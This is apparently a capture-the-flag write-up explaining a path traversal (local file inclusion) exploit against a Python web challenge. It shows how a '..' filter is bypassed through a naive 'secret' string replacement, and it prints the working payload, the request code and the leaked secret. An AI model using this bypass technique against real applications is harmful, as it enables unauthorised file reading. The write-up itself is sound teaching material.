

Challenge author: t0m7r00z

This task introduces LFI, our goal is to read this file **billet_task/secret_1337_sh1t/secret_word.txt**

and we'll be doing so by exploiting this line.

```python
first_search = os.path.join(os.getcwd(), "registres", *reg).replace("secret", "") 

# There are two things that we care about.
# First it unpacks the reg value which means if I pass in a list ["a", "b"]
# The path becomes os.getcwd()/registres/a/b
# And the other thing is replace("secret", "") and we'll be seeing why later
```
The file we need is at **os.getcwd()/billet_task/secret_1337_sh1t/secret_word.txt** but it joins our input to **os.getcwd()/registres** so how can we read it?

**First:** We want to leave registres folder and read from billet_task but we can't use **..** because of this

```python
if ("/" in reg) or (".." in reg):
    data = "Je vois des trucs interdits ici."
```

This is when we exploit ```.replace("secret", "")``` by giving it **..secret** it will automatically bypass the filter and then remove "secret".


**Second:** Now we want to read secret_1337_sh1t/secret_word.txt but the problem is that "secret" get's replaced with "".

Solution: **sec**secret**ret**_1337_sh1t/**sec**secret**ret**_word.txt

So our whole payload becomes ad follows:

```["..secret", "billet_task", "secsecretret_1337_sh1t", "secsecretret_word.txt"]``` 


```python
r = requests.post("https://infreezy.pythonanywhere.com/get_registre", json={"registre":["..secret","billet_task", "secsecretret_1337_sh1t", "secsecretret_word.txt"]})
print(r.text)
# s3c5e7_1337_f@k1ng_m3s5Ss4ge
```
All that is left to do is to access /get_billet?secret=s3c5e7_1337_f@k1ng_m3s5Ss4ge

```python
with open("flag.png","wb") as file:
    r = requests.get("https://infreezy.pythonanywhere.com/get_billet?secret=s3c5e7_1337_f@k1ng_m3s5Ss4ge")
    file.write(r.content)
```


